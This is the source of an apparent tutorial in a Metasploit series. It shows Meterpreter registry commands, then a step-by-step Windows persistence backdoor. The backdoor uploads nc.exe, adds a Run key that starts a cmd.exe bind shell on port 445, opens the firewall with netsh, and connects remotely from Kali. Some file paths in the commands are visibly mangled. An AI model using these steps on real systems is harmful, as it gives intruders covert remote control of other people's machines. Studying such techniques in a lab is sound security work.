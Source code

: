 ```yaml
---
draft: false
title: MSF Working on Registry
linkTitle: MSF Working on Registry
translationKey: msf-working-on-registry
weight: 320
date: 2017-06-05T13:27:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Meterpreter gives us the ability to work on the Windows Registry. In this article, we will examine how to work on the Windows Registry.
url: /msf-working-on-registry/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
---
```

## Windows Registry Operations

Windows Registry is a magical area where almost all operations are recorded. A single change in this area can give you the necessary authority in the system. On the other hand, a wrong operation can cause the system not to boot again. You need to act carefully and not rush.

Meterpreter, a powerful tool in the Metasploit Framework, provides many commands that allow you to work on the Windows Registry. Let's take a brief look at them. When you open a Meterpreter shell on a system, you can see the help information by typing the `reg` command.

```bash
meterpreter > reg
Usage: reg [command] [options]

Interact with the target machine's registry.

OPTIONS:

    -d   The data to store in the registry value.
    -h   Help menu.
    -k   The registry key path (E.g. HKLM\Software\Foo).
    -t   The registry value type (E.g. REG_SZ).
    -v   The registry value name (E.g. Stuff).

COMMANDS:

    enumkey    Enumerate the supplied registry key [-k >key>]
    createkey  Create the supplied registry key  [-k >key>]
    deletekey  Delete the supplied registry key  [-k >key>]
    queryclass Queries the class of the supplied key [-k >key>]
    setval     Set a registry value [-k >key> -v >val> -d >data>]
    deleteval  Delete the supplied registry value [-k >key> -v >val>]
    queryval   Queries the data contents of a value [-k >key> -v >val>]
```

As you can see from the help command, the `reg` command provides the ability to read (`queryval`), write (`setval`), create new settings (`createkey`), and delete (`deletekey`) on the Registry.

With these commands, you can create new values, change values, and collect information about the system by looking at the right places. I recommend you to improve yourself about where the value is stored in the system. For an idea, you can check the [PDF file](https://support.accessdata.com/hc/en-us/article_attachments/201717329/Registry_Quick_Find_Chart_9-27-10.pdf) in the link.

## Creating a Backdoor on Windows

In this article, we will examine how to create a backdoor on a Windows system using the Registry. We will place the `netcat` program on the target system. By making changes in the Registry settings, we will set the `netcat` program to start automatically when the computer is turned on. We will ensure that the Firewall settings allow `netcat` program and port 445.

### Uploading netcat Program nc.exe to the Target System

First of all, let's upload the netcat program, known as `nc.exe`, to the target Windows operating system. You must have previously opened a meterpreter shell. We have mentioned examples of this in our previous articles. You can find some useful programs in the `/usr/share/windows-binaries/` folder in the Kali operating system.

```bash
meterpreter > upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32
> uploading  : /tmp/nc.exe -> C:\windows\system32
> uploaded   : /tmp/nc.exe -> C:\windows\system32nc.exe
```

### netcat Program to Run Automatically

To run the nc.exe program every time the operating system starts, you must create a value in the Registry key `HKLM\software\microsoft\windows\currentversion\run`. First, let's see the current values and settings. Note that the backslash `\` characters are written twice.

```bash
meterpreter > reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
Enumerating: HKLM\software\microsoft\windows\currentversion\run

  Values (3):

    VMware Tools
    VMware User Process
    quicktftpserver
```

As seen in the command output, the `VMware Tools, VMware User Process, quicktftpserver` software is currently set to start automatically. Let's add our new setting with the `reg setval` command and check it again with the `reg queryval` command.

```bash
meterpreter > reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32 c.exe -Ldp 445 -e cmd.exe'
Successful set nc.
meterpreter > reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc
Key: HKLM\software\microsoft\windows\currentversion\Run
Name: nc
Type: REG_SZ
Data: C:\windows\system32 c.exe -Ldp 445 -e cmd.exe
```

### Firewall Settings

You can make firewall settings directly from the Registry settings, or you can make firewall settings with the `netsh` command. Let's set the firewall settings from the command line to show usage. To do this, let's enter the Windows command line from the Meterpreter command line.

```bash
meterpreter > execute -f cmd -i
Process 1604 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
C:\ >
```

Let's see the current state of the Firewall settings.

```bash
C:\ > netsh firewall show opmode
Netsh firewall show opmode

Domain profile configuration:
-------------------------------------------------------------------
Operational mode                  = Enable
Exception mode                    = Enable

Standard profile configuration (current):
-------------------------------------------------------------------
Operational mode                  = Enable
Exception mode                    = Enable

Local Area Connection firewall configuration:
-------------------------------------------------------------------
Operational mode                  = Enable
```

Now let's add the port 445 to the allowed ports.

```bash
C:\ > netsh firewall add portopening TCP 445 "Service Firewall" ENABLE ALL
netsh firewall add portopening TCP 445 "Service Firewall" ENABLE ALL
Ok.
```

Let's check if the operation we performed has been successful.

```bash
C:\ > netsh firewall show portopening
netsh firewall show portopening

Port configuration for **Domain profile:
Port   Protocol  Mode     Name
-------------------------------------------------------------------
139    TCP       Enable   NetBIOS Session Service
445    TCP       Enable   SMB over TCP
137    UDP       Enable   NetBIOS Name Service
138    UDP       Enable   NetBIOS Datagram Service

Port configuration for **Standard profile:
Port   Protocol  Mode     Name
-------------------------------------------------------------------
445    TCP       Enable   Service Firewall
139    TCP       Enable   NetBIOS Session Service
445    TCP       Enable   SMB over TCP
137    UDP       Enable   NetBIOS Name Service
138    UDP       Enable   NetBIOS Datagram Service
C:\ >
```

### Testing the Backdoor

After making the necessary settings, you can restart the target system. When the target system restarts, `nc.exe` will automatically start and provide external connections. In the example below, it can be seen that the target system can be connected from the outside with the `nc` command.

```bash
root@kali:~# nc -v 172.16.104.128 445
172.16.104.128: inverse host lookup failed: Unknown server error : Connection timed out
(UNKNOWN) [172.16.104.128] 445 (?) open
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\ > dir
dir
Volume **in **drive C has no label.
Volume Serial Number is E423-E726

Directory of C:\

05/03/2009 01:43 AM
.
05/03/2009 01:43 AM
..
05/03/2009 01:26 AM 0 ;i
05/12/2009 10:53 PM
Desktop
10/29/2008 05:55 PM
Favorites
05/12/2009 10:53 PM
My Documents
05/03/2009 01:43 AM 0 QCY
10/29/2008 03:51 AM
Start Menu
05/03/2009 01:25 AM 0 talltelnet.log
05/03/2009 01:25 AM 0 talltftp.log
4 File(s) 0 bytes
6 Dir(s) 35,540,791,296 bytes free

C:\ >
```

In real situations, it is not so easy to open such a backdoor. However, the logic of the procedures to be applied is as explained above. If you fail to apply the above example exactly, do not despair. Work harder.
